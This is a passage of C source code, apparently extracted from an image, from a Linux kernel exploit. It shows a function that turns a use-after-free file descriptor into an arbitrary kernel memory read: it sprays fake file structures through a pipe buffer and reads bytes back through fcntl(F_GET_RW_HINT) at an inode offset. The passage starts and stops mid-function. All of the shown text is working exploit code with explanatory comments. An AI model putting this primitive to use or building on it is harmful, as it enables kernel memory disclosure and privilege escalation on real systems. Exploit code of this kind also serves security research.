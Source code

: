 ```
    char buf[4096] = { 0 };
    write(g_pipe.fd[PIPE_WRITE], buf, 4096);
}

// Offset inside of inode to inode->i_write_hint
#define HINT_OFF 0x8fUL

// By using `fcntl(F_GET_RW_HINT)` we can read a single byte at
// file->inode->i_write_hint
uint64_t read_8_at(unsigned long addr)
{
    // Set the inode address
    uint64_t inode_addr_base = addr - HINT_OFF;

    // Set up the buffer for the arbitrary read
    unsigned char buf[4096] = { 0 };

    // Iterate 8 times to read 8 bytes
    uint64_t val = 0;
    for (size_t i = 0; i < 8; i++)
    {
        // Calculate inode address
        uint64_t target = inode_addr_base + i;

        // Set up a fake file 16 times (number of files per page), we don't know
        // yet which of the 16 slots our UAF file is at
        reset_pipe_buf();
        *(uint64_t *)&buf[0x20]  = target;
        *(uint64_t *)&buf[0x120] = target;
        *(uint64_t *)&buf[0x220] = target;
        *(uint64_t *)&buf[0x320] = target;
        *(uint64_t *)&buf[0x420] = target;
        *(uint64_t *)&buf[0x520] = target;
        *(uint64_t *)&buf[0x620] = target;
        *(uint64_t *)&buf[0x720] = target;
        *(uint64_t *)&buf[0x820] = target;
        *(uint64_t *)&buf[0x920] = target;
        *(uint64_t *)&buf[0xa20] = target;
        *(uint64_t *)&buf[0xb20] = target;
        *(uint64_t *)&buf[0xc20] = target;
        *(uint64_t *)&buf[0xd20] = target;
        *(uint64_t *)&buf[0xe20] = target;
        *(uint64_t *)&buf[0xf20] = target;

        // Create the content
        write(g_pipe.fd[PIPE_WRITE], buf, 4096);

        // Read one byte back
        uint64_t arg = 0;
        if (fcntl(g_uaf_fd, F_GET_RW_HINT, &arg) == -1)
        {
            err("`fcntl()` failed");
        };

        // Add to val
        val |= (arg << (i * 8));
    }

    return val;
}

void read_comm_at(unsigned long addr, char *comm)
{
```